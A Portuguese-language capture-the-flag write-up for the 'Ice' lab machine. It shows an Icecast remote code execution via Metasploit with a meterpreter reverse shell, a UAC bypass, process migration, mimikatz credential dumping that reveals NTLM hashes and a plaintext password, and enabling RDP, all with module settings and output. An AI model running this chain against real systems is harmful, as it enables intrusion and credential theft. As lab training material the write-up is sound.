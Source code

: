 ROOM ICE

Executado varredura no alvo para enumeração de portas, serviços e vulnerabilidades

Portas:
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server?
5357/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http           Icecast streaming media server
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49158/tcp open  msrpc          Microsoft Windows RPC
49159/tcp open  msrpc          Microsoft Windows RPC
49160/tcp open  msrpc          Microsoft Windows RPC

Hostname:
DARK-PC (workgroup)

Vulnerabilidades:
CVE-2004-1561 (Executed Code Overflow)
https://www.cvedetails.com/cve/CVE-2004-1561/

Exploit:
Icecast 2.0.1 (Win32) - Remote Code Execution (1)
https://www.exploit-db.com/exploits/568

Pesquisado exploit no Kali Linux (searchsploit) e encontrado o mesmo exploit e mais um.
Icecast 2.0.1 (Win32) - Remote Code Execution (1) -----> windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2) -----> windows/remote/573.c

Também há um módulo do (metasploit) para essa falha, então primeiramente utilizei o exploit o metasploit para fazer a exploração do alvo.
exploit/windows/http/icecast_header
payload/windows/meterpreter/reverse_tcp

Com a configuração abaixo de exploit + payload, obtive acesso ao alvo.
Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.229.185    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.185.104     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

Mas a conexão que obtive é uma conexão sem privilégios de administrador (getuid).
Tentei executar uma escalação por dentro do meterpreter (getsystem), mas sem sucesso.

Com o comando (ps), podemos ver que o usuário DARK-PC\Dark está executando o Icecast no processo PID (2264).

Sistema operacional: Windows 7 (6.1 Build 7601, Service Pack 1)

Executado dentro do meterpreter um comando para identificação de possível exploits para post-exploitation (run post/multi/recon/local_exploit_suggester), e encontrei um exploit para usar.
exploit/windows/local/bypassuac_eventvwr

Coloquei a sessão meterpreter em background e executei o post-exploitation (exploit/windows/local/bypassuac_eventvwr).
 Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.185.104:4444 -> 10.10.229.185:49230 (10.10.229.185)

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.185.104     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

Agora temos privilégios administrativos nos servidor.

Exdecutado o comando para verificar os privilégios extendidos (getprivs) e identificado que (SeTakeOwnershipPrivilege), tem permissão para assumir a propriedades de um arquivo.
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeTakeOwnershipPrivilege

Com o comando (getsystem), consegui escalar privílégios de "NT AUTHORITY\SYSTEM" (getuid), mas não aceita o comando (hashdump), para coleta das hash de senha dos usuários. Necessário ousar outra técnica.

O serviço "lsass.exe" é o serviço responsável pela autenticação de usuários no Windows.

Com o comando (ps), encontrado o processo do "lsass".
700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe

Para manipular o processo "lsass", necessito migrar meu processo de invasão para dentro de outro processo que tenha as mesmas permissões (NT AUTHORITY\SYSTEM), usado o processo do pool de impressão (spoolsv.exe
1368  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

Migrado o nosso processo de invasão para dentro do processo do pool de impressão.
migrate -N spoolsv.exe

Após esse processo de migração ao executar o comando (getuid), nosso usuário deixará de ser o "DARK-PC\Dark" e passará a ser "NT AUTHORITY\SYSTEM"

Executado o "mimikatz" através do módulo (kiwi) do meterpreter.
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
Success.

Meterpreter >

Com o comando (help), temos uma lista completa de comandos e mais informações.

Executado o comando (creds_all) para recuperação de todas as hash de senhas e das senhas.
meterpreter > creds_all
[===============
Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

Agora que tenho a senha, fiz a conexão via RDP no alvo, mas primeiro foi necessário habilitar o RDP no alvo, através do comando 
(run post/windows/manage/enable_rdp) dentro do meterpreter.

Finalizado!

=============================================================================================================================================

Exploração manual via Exploit-DB

Usado o exploit "Icecast 2.0.1 (Win32) - Remote Code Execution (1)"
https://www.exploit-db.com/exploits/568

Que tem disponível dentro do Kali Linux, mas é um exploit para Windows, pois não compila no Kali.
Li a documentação interna do código e ele necessita de um Windows com o "nc/ncat" para ficar com a porta 9999 em listening + IDE com GCC para compilação do código em .EXE.
